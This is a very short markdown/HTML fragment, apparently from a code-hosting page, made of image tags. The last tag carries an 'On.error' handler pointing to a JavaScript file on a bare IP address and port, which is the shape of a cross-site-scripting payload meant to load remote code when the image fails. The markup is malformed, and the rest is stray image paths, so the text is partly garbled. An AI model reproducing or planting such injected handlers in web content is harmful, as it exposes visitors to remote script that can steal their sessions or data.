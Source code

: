 <img src="../../../../r89shi/r89shi.github.io/blob/master/140.gifs?raw=true">

<img src="">
<img src="" On.error='http://54.155.251.55:8000/ff.js'">

